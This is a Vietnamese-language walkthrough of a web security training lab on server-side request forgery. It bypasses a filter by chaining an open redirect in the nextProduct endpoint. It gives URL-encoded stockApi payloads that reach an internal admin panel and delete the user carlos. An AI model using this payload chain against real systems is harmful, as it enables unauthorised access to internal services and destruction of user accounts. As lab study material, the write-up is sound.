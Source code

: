 ## SSRF with filter bypass via open redirection vulnerability

Bắt lại request checkStock ta sẽ có value của param stockApi là /product/stock/check?productId=1&storeId=1

Ở description Lab bảo là phải đổi url tới địa chỉ 192.168.0.12:8080/admin

![](/imgs/CSRF/18.png?raw=true)

Cho nên mình sẽ lợi dụng chức năng next product có sẵn param để redirect sang luôn.

**GET /product/nextProduct?currentProductId=1&path=/product?productId=2**

Cho nên stockApi của request sẽ là

**stockApi=/product/nextProduct?currentProductId=1%26path%3dhttp%3a//192.168.0.12%3a8080/admin**

![](/imgs/CSRF/19.png?raw=true)

Tiến hành delete user carlos

**stockApi=/product/nextProduct?currentProductId=1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos**

![](/imgs/CSRF/20.png?raw=true)


